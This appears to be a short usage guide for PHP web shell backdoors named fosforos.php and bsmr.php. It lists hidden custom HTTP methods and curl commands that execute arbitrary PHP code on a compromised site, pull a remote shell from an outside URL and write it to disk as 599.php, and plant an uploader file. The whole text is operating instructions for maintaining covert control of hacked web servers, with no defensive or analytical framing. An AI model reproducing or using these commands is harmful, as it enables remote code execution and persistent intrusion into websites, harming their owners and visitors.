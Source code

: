 
#fosforos.php
// use = ssl://sitename.domain/path/filename.php?FosforoS

#bsmr.php

[    SAYANGKAMU    ]      = for input php code without '<?php' and '?>'
example with params     = SayangKamu=echo "kamu siapa?";
example with curl       = curl -X SAYANGKAMU urldomain/path/filename.ext -d 'SayangKamu=echo "kamu siapa?"; '
[    SAYANG599     ]      = for input shell by url  
example with params     = SAYANG599=http://ase.de/kont.ol
example with curl       = curl -X SAYANG599DONG urldomain/path/filename.ext -d 'SAYANG599=http://ase.de/kont.ol'
filename if use SAYANG599 599.php
[ SAYANGAKUMASUKIN ]      = for add uploader in site
example with params     = ( this not use param ~.~ )
example with curl       = curl -X SAYANGAKUMASUKIN urldomain/path/filename.ext 
filename if use SAYANGAKUMASUKIN benihku.php

    
